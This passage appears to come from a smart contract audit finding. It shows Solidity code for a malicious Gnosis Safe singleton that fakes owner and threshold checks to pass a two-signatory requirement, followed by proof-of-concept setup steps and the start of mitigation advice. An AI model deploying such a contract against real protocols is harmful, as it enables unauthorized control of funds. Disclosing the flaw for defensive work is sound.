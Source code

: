 For instance, a malicious singleton might simulate a `protocolTrustee` ownership status, misleading the `isOwner` check to always return true for the `protocolTrustee` under the guise of meeting the two-signatory requirement.

```solidity
contract MaliciousGnosisSafe is GnosisSafe {
    address public fakeOwner;
    address public realOwner;

    function setReturnOwner(address _fakeOwner, address _realOwner) public {
        fakeOwner = _fakeOwner;
        realOwner = _realOwner;
    }

    function getOwners() public view override returns (address[] memory) {
        address[] memory array = new address[](2);
        array[0] = fakeOwner;
        array[1] = realOwner;
        return array;
    }

    function getThreshold() public view override returns (uint256) {
        return 2;
    }

    function isOwner(address owner) public view override returns (bool) {
        if (owner == fakeOwner) {
            return true;
        } else {
            return super.isOwner(owner);
        }
    }
}
```

Setup and POC:

- Put the POC file MaliciousGenosisSafe.t.sol in test/MaliciousGenosisSafe.t.sol
  https://gist.github.com/thangtranth/701abaf86864510967fbacc7dbe79eba

- Put the GnosisSafe.sol (MaliciousGnosisSafe singleton) in test/helpers/GnosisSafe.sol
  https://gist.github.com/thangtranth/4fba8229778254d59c18a2e740239ad8

- Put the ISafeProxyFactory.sol in test/helpers/ISafeProxyFactory.sol
  https://gist.github.com/thangtranth/20edd2cbbcb7afb73dd0a6c13a771448

Run `forge test -vvvvv --match-path test/MaliciousGenosisSafe.t.sol --match-test testPOC`

**Recommendations**

To mitigate this vulnerability, ensure the validation of the singleton's authenticity:

- Reading the slot 0 of the proxy and verify offchain, warning users if the singleton is not in the allowed list.
- In contract:
